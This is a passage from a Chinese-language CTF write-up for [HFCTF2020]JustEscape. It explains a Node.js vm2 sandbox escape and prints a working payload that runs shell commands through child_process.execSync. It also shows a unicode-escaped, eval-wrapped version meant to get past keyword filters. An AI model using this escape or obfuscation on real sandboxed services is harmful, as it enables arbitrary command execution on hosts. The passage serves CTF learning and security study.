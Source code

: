 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211031153793.png)

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211031153820.png)

## [HFCTF2020]JustEscape

nodejs vm2 沙箱绕过

通过 `Error().stack` 可以看到路径为 `/app/node_modules/vm2/`

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211091611183.png)

去学了一会 nodejs 安全, 参考文章如下

[http://thnpkm.xyz/index.php/archives/68/](http://thnpkm.xyz/index.php/archives/68/)

[https://bycsec.top/2020/04/20/Nodejs的一些技巧/](https://bycsec.top/2020/04/20/Nodejs的一些技巧/)

[https://xz.aliyun.com/t/7184](https://xz.aliyun.com/t/7184)

[https://xz.aliyun.com/t/11791](https://xz.aliyun.com/t/11791)

[https://xz.aliyun.com/t/7752](https://xz.aliyun.com/t/7752)

沙箱逃逸基本都是参照 GitHub 的 issue

[https://github.com/patriksimek/vm2/issues?q=breakout](https://github.com/patriksimek/vm2/issues?q=breakout)

随便找一个 [https://github.com/patriksimek/vm2/issues/225](https://github.com/patriksimek/vm2/issues/225)

然后发现程序 ban 了常用的关键词, 例如 eval process fs 单双引号这些

但是 nodejs 的语法很灵活, 字母可以通过 unicode / hex 转换来绕过, 单双引号可以用反引号代替

原 payload

```javascript
(function(){
	TypeError.prototype.get_process = f=>f.constructor("return process")();
	try{
		Object.preventExtensions(Buffer.from("")).a = 1;
	}catch(e){
		return e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /flag").toString();
	}
})()
```

>  形如 `(function(){})` 或 `(function(){})()` 的表达式被称为 IIFE (立即调用函数表达式), 指函数在被定义之后就会立即执行

转 unicode, 之后再用 eval 配合 unicode 来构造

```javascript
\u0065val(`\u0028\u0066\u0075\u006e\u0063\u0074\u0069\u006f\u006e\u0028\u0029\u007b\u000a\u0009\u0054\u0079\u0070\u0065\u0045\u0072\u0072\u006f\u0072\u002e\u0070\u0072\u006f\u0074\u006f\u0074\u0079\u0070\u0065\u002e\u0067\u0065\u0074\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0020\u003d\u0020\u0066\u003d\u003e\u0066\u002e\u0063\u006f\u006e\u0073\u0074\u0072\u0075\u0063\u0074\u006f\u0072\u0028\u0022\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0022\u0029\u0028\u0029\u003b\u000a\u0009\u0074\u0072\u0079\u007b\u000a\u0009\u0009\u004f\u0062\u006a\u0065\u0063\u0074\u002e\u0070\u0072\u0065\u0076\u0065\u006e\u0074\u0045\u0078\u0074\u0065\u006e\u0073\u0069\u006f\u006e\u0073\u0028\u0042\u0075\u0066\u0066\u0065\u0072\u002e\u0066\u0072\u006f\u006d\u0028\u0022\u0022\u0029\u0029\u002e\u0061\u0020\u003d\u0020\u0031\u003b\u000a\u0009\u007d\u0063\u0061\u0074\u0063\u0068\u0028\u0065\u0029\u007b\u000a\u0009\u0009\u0072\u0065\u0074\u0075\u0072\u006e\u0020\u0065\u002e\u0067\u0065\u0074\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0028\u0028\u0029\u003d\u003e\u007b\u007d\u0029\u002e\u006d\u0061\u0069\u006e\u004d\u006f\u0064\u0075\u006c\u0065\u002e\u0072\u0065\u0071\u0075\u0069\u0072\u0065\u0028\u0022\u0063\u0068\u0069\u006c\u0064\u005f\u0070\u0072\u006f\u0063\u0065\u0073\u0073\u0022\u0029\u002e\u0065\u0078\u0065\u0063\u0053\u0079\u006e\u0063\u0028\u0022\u0063\u0061\u0074\u0020\u002f\u0066\u006c\u0061\u0067\u0022\u0029\u002e\u0074\u006f\u0053\u0074\u0072\u0069\u006e\u0067\u0028\u0029\u003b\u000a\u0009\u007d\u000a\u007d\u0029\u0028\u0029`)
```
